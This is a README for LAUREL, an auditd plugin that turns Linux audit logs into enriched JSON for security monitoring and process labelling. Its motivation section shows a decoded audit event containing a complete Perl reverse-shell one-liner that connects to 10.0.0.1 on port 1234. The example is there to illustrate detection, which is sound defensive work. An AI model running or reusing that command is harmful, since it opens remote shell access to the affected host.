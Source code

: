 ![logo](laurel.svg)
# Linux Audit – Usable, Robust, Easy Logging

[![Build Status](https://github.com/threathunters-io/laurel/actions/workflows/build.yml/badge.svg)](https://github.com/threathunters-io/laurel/actions/workflows/build.yml)

LAUREL is an event post-processing plugin for _auditd(8)_ to improve its usability in modern security monitoring setups.

Documentation corresponding to the latest stable release can be found [here](https://github.com/hillu/laurel/tree/v0.5.0).

## Motivation

TLDR: Instead of audit events that look like this…
```
type=EXECVE msg=audit(1626611363.720:348501): argc=3 a0="perl" a1="-e" a2=75736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B65742…
```
…turn them into JSON logs where the mess that your pen testers/red teamers/attackers are trying to make becomes apparent at first glance:
```
{ … "EXECVE":{ "argc": 3,"ARGV": ["perl", "-e", "use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"]}, …}
```
This happens at the source because _LAUREL_ runs on the host where the audit events are generated. The event even contains useful information about the parent process (ppid):
```
"PPID":{"EVENT_ID":"1643635026.276:327308","comm":"sh","exe":"/usr/bin/dash","ppid":3190631}
```

Logs produced by the Linux Audit subsystem and _auditd(8)_ contain information that can be very useful for host-based security monitoring. However, the format is not well-suited for at-scale analysis: Events are usually split across different lines that have to be merged using a message identifier. Files and program executions are logged via `PATH` and `EXECVE` elements, but a limited character set for strings causes many of those entries to be hex-encoded. For a more detailed discussion, see [Practical _auditd(8)_ problems](practical-auditd-problems.md).

_LAUREL_ solves these problems by consuming audit events, parsing, transforming, enriching them, and writing them out as a separate JSON-based log. All information that was part of the original audit log is kept intact. The audit daemon is not replaced as the consumer of audit messages from the Linux kernel. Instead, _auditd's_ plugin interface is used, therefore _LAUREL.. can peacefully coexist with other consumers of audit events.

The chapter [_LAUREL_ installation instructions](INSTALL.md) contains instructions on how to set up and configure usage of the plugin.

Details about the log format are described in the [JSON-based log format](json-format.md) chapter.

We developed this tool because we were not content with feature sets and performance characteristics of existing projects and products. Please refer to the [Performance](performance.md) chapter for details.

## Audit rules

Currently, _LAUREL_ comes with no explicit recommendations on what to log. This is left as an exercise to the user. A good starting point for an audit ruleset is <https://github.com/Neo23x0/auditd>.

_LAUREL_ will currently work best if _End Of Event_ record are not suppressed, so rules like

> `-a always,exclude -F msgtype=EOE`

should be removed.

## Events with context

Every event that is caused by a syscall or filesystem rule is annotated with information about the process that caused the event and its parent:

``` json
"PPID": {
  "EVENT_ID": "1643635026.276:327308",
  "comm": "sh",
  "exe": "/usr/bin/dash",
  "ppid": 1532
},
"PID": {
  "EVENT_ID": "1643635028.826:327529",
}
```
`PID.EVENT_ID` or `PPID.EVENT_ID` refers to the audit event corresponding to the last `execve` syscall for the process or its parent, respectively.

## Adding more context: Keys and process labels

Audit events can contain a key, a short string that can be used to filter events. _LAUREL_ can be configured to recognize such keys and add them as labels to the process that caused the event. These labels can also be propagated to child processes. This is useful to avoid expensive JOIN-like operations in log analysis to filter out noise.

Consider the following audit rule that set keys for _apt_ and _dpkg_ invocations:
```
-w /usr/bin/apt-get -p x -k software_mgmt
```
Let's configure _LAUREL_ to turn the `software_mgmt` key into a process label that is propagated to child processes:
``` ini
[label-process]

label-keys = [ "software_mgmt" ]
propagate-labels = [ "software_mgmt" ]
```
Together with a ruleset that logs _execve(2)_ and variants, this will cause every event directly caused by `apt-get` and its subprocesses to be labelled `software_mgmt`.

For example, running `sudo apt-get update` on a Debian/bullseye system with a few sources configured, the following subprocesses labelled `software_gmt` can be observed in _LAUREL's_ audit log:

- `apt-get update`
- `/usr/bin/dpkg --print-foreign-architectures`
- `/usr/lib/apt/methods/http`
- `/usr/lib/apt/methods/https`
- `/usr/lib/apt/methods/https`
- `/usr/lib/apt/methods/http`
- `/usr/lib/apt/methods/gpgv`
- `/usr/lib/apt/methods/gpgv`
- `/usr/bin/dpkg --print-foreign-architectures`
- `/usr/bin/dpkg --print-foreign-architectures`

This sort of tracking also works for package installation or removal. If some package's post-installation script is behaving suspiciously, a SIEM analyst will be able to make the connection to the software installation process by inspecting a single event.

## License

GNU General Public License, version 3

## Authors

- Hilko Bengen <<bengen@hilluzination.de>>
- Sergej Schmidt <<sergej@msgpeek.net>>

The logo was created by Birgit Meyer <<hello@biggi.io>>.
